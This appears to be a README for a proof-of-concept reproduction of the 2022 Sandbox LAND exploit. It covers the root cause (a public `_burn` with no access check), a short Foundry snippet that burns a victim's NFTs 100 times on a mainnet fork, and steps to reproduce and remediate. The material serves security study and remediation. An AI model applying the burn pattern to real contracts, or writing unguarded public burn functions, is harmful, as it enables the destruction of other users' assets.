

# The Sandbox LAND Exploit — Public `_burn` of Anyone's NFT

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/access-control/broken-logic

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [Land.sol](sources/Land_50f547/Land.sol).

---

## Key info

| | |
|---|---|
| **Loss** | Asset destruction / griefing (LAND NFTs of arbitrary users burned) |
| **Vulnerable contract** | `Land` — [`0x50f5474724e0Ee42D9a4e711ccFB275809Fd6d4a`](https://etherscan.io/address/0x50f5474724e0Ee42D9a4e711ccFB275809Fd6d4a#code) |
| **Victim** | `0x9cfA73B8d300Ec5Bf204e4de4A58e5ee6B7dC93C` (held 2,762 LAND in the PoC) |
| **Caller (attacker)** | `0x6FB0B915D0e10c3B2ae42a5DD879c3D995377A2C` |
| **Chain / block / date** | Ethereum mainnet / 14,163,041 / Feb 2022 |
| **Bug class** | Access control — the internal NFT `_burn` was exposed as an **external/public** function with no caller check, so anyone can burn any holder's tokens. |

---

## TL;DR

The Sandbox `Land` contract exposed what should have been an **internal** ERC721 helper as a **public**
function with no access control. `_burn(address from, address owner, uint256 tokenId)` was callable by
anyone, for any victim address, burning that victim's LAND NFT and decrementing their balance.

The PoC simply loops 100 times:

```solidity
cheats.startPrank(0x6FB0...A2C);                       // arbitrary caller — no special role
console.log("Before exploiting, victim owned NFT:", Land._numNFTPerAddress(victim)); // 2762
for (uint256 i = 0; i < 100; i++) {
    Land._burn(victim, victim, 3738);                  // ⚠️ burns victim's token #3738 each call
}
console.log("After exploiting, victim owned NFT:", Land._numNFTPerAddress(victim));  // 2662
```

The victim's NFT count drops from **2,762 → 2,662** (−100). Each `_burn(victim, victim, 3738)` emits
`Transfer(from=victim → 0x0, tokenId=3738)` and decrements the victim's `_numNFTPerAddress` storage
slot from 2,668 → 2,667 → … → 2,662 (visible in the trace's storage-change logs).

---

## Root cause

A **visibility / access-control defect**: an internal `_burn` (an ERC721 implementation detail) was
declared `public`/`external` instead of `internal`, with no `onlyOwner` / `onlyApprovedOperator` gate.

The correct ERC721 pattern is:
- `_burn` is **internal** (only the contract's own logic calls it).
- The public exit point is `burn(uint256 tokenId)`, which checks `_isApprovedOrOwner(msg.sender, tokenId)`.

Sandbox exposed the helper directly, so any address could destroy any other address's LAND. There was
no token-ownership or approval check tying the caller to the burned token.

---

## Preconditions

- None. Any externally-owned account or contract can call `Land._burn(victim, victim, tokenId)` for any
  victim that holds NFTs. The `tokenId` reused here (3738) happens to be re-minted/re-burnable under
  the contract's accounting; the core issue (no auth on `_burn`) is independent of token id.

---

## Diagrams



```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker (arbitrary)
    participant L as Land
    participant V as Victim 0x9cfA…

    Note over V: holds 2,762 LAND
    loop 100×
        A->>L: _burn(victim, victim, 3738)
        L->>L: (no auth) Transfer(victim→0x0, 3738); balance--
    end
    Note over V: now holds 2,662 LAND
```

---

## Remediation

1. **Make `_burn` `internal`** (or `private`) and never expose it publicly.
2. **Expose a single `burn(uint256)`** that enforces `_isApprovedOrOwner(msg.sender, tokenId)`.
3. **Add an access-control lint/test** that asserts no `public`/`external` function can move assets on
   behalf of a non-caller without an explicit approval check.
4. **Re-entrancy/CEI review** of all ERC721 helper functions to confirm visibility matches intent.

---

## How to reproduce

```bash
_shared/run_poc.sh 2022-02-Sandbox_exp --mt testExploit -vvvvv
```

- RPC: mainnet archive (block 14,163,041). Infura mainnet in `foundry.toml`.
- Result: `[PASS] testExploit()` — victim LAND count `2762 → 2662` (100 burned).

---

*Reference: The Sandbox LAND `_burn` access-control flaw, Feb 2022.*
